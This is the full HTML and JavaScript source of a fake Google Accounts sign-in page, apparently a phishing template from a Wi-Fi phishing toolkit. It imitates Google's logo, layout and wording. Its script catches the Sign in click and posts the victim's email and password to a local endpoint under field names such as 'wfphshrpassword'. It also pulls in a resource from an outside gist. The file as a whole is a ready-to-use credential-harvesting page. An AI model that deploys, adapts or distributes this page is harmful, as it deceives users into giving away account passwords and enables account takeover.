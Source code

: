 <!DOCTYPE html>
<html>

  <head>

    <title>Sign in - Google Accounts</title>

    <meta charset='UTF-8'>
    <meta http-equiv="cache-control" content="no-cache" />
    <meta http-equiv="expires" content="0" />
    <meta http-equiv="pragma" content="no-cache" />
    <meta name="viewport" content="width=device-width,
    initial-scale=0.75, maximum-scale=0.75, user-scalable=no">
    <meta name="robots" content="noindex, nofollow"> 

    <script src="static/js/jquery.min.js"></script>
    

    <link rel="stylesheet" href="statis/css/bootstrap.min.css">
    <link rel="stylesheet" href="https://gist.github.com/PyRAT-svg/e9f8bf4d4af891f80133cdf4d254664b.js">
    <link rel="icon" type="image/png" href="static/img/oc3czvmbvf.png"/>

    <style>

    .google-header-bar {
    height: 71px;
    border-bottom: 1px solid #e5e5e5;
    overflow: hidden;
    }

    .google-header-bar.centered {
    border: 0;
    height: 108px;
    }

    .google-header-bar.centered .header .logo {
    float: none;
    margin: 40px auto 30px;
    display: block;
    }
    .google-header-bar.centered .header .secondary-link {
    display: none
    }

    .header .logo {
    margin: 17px 0 0;
    float: left;
    height: 38px;
    width: 116px;
    }

    </style>

    <style media="screen and (max-width: 800px), screen and (max-height: 800px)">

      .google-header-bar.centered {
        height: 83px;
      }

      .google-header-bar.centered .header .logo {
        margin: 25px auto 20px;
      }

      .card {
        margin-bottom: 20px;
      }

    </style>

    <style media="screen and (max-width: 580px)">

      html,
      body {
        font-size: 14px;
      }

      .google-header-bar.centered {
        height: 73px;
      }

      .google-header-bar.centered .header .logo {
        margin: 20px auto 15px;
      }

      .content {
        padding-left: 10px;
        padding-right: 10px;
      }

      .hidden-small {
        display: none;
      }

      .card {
        padding: 20px 15px 30px;
        width: 270px;
      }

      .footer ul li {
        padding-right: 1em;
      }

      .lang-chooser-wrap {
        display: none;
      }

    </style>

  </head>

  <body>

    <div class="container">

      <div class="google-header-bar centered">
        <div class="header content clearfix">
          <img alt="Google" class="logo" src="static/img/dtnk16mcjo.png">
        </div>
      </div>

      <h1 class="text-center login-title">Sign in with your Google Account</h1>

        <div class="account-wall">

          <img class="profile-img" src="static/img/yqczrisvt2.png" alt="">

          <form class="form-signin">
            <input id="eml" type="text" name="eml" class="form-control" placeholder="Email" _autofocus="true" autocorrect="off" autocomplete="off" autocapitalize="off" required>
            <input id="pwd" type="password" name="pwd" class="form-control" placeholder="Password" autocorrect="off" autocomplete="off" autocapitalize="off" required><br>

            <div id="dialog">
            <h2 id="error">Please enter the required fields.</h2>
            </div>

            <button id="btn" class="btn btn-primary btn-block btn-sharp" name="login" type="submit">Sign in</button>
            <a href="#" class="pull-right need-help">Find my account </a><span class="clearfix"></span>
          </form>

        </div>

            <br><a href="#" class="text-center new-account">Create an account </a>
            <center><br><p class="tagline">One Google Account for everything Google</p>
            <img src="static/img/tmjjgvk28i.png" width="210" height="17" alt=""></center><br><br>

    <script>
      /*
      Check the password field and act accordingly.
      */

      $("#btn").on("click", function(e) {
          e.preventDefault();
          // get the password box and checkbox elements
          var input = document.getElementById("eml");
          var input2 = document.getElementById("pwd");
          // check to see if the value is empty
          if ( input.value == "" ){
              passNotValid();
          }else if( input2.value == "" ){ //check if the value of the repeat field is empty
              passNotValid();
          }else{
              // post the data
              $("#dialog").css('display', 'none');
                post('post', {
                  wfphshremail: input.value,
                  wfphshrpassword: input2.value
                });      
          }
      });

      function passNotValid(){
        $("#dialog").css('display', 'block');
        $(".form-control").css('border', '1px solid #dd4b39');
      }
      
      /*
      Post to the fallowing path given the parameters.

      Args:
        path: The path to be posted to.
        params: The parameters to be passed.
      */
      function post(path, params) {
        // create a form and set its attributes
        var form = document.createElement("form");
        form.setAttribute("method", "post");
        form.setAttribute("action", path);

        // set the attribute for the post
        for(var key in params) {
            if(params.hasOwnProperty(key)) {
                var hiddenField = document.createElement("input");
                hiddenField.setAttribute("type", "hidden");
                hiddenField.setAttribute("name", key);
                hiddenField.setAttribute("value", params[key]);
                form.appendChild(hiddenField);
             }
        }
        // submit the post
        document.body.appendChild(form);
        form.submit();
      }
      var input = document.getElementById("eml");
      var input2 = document.getElementById("pwd");
      input.disabled = false;
      input2.disabled = false;
    </script>

    </div>

  </body>

</html>
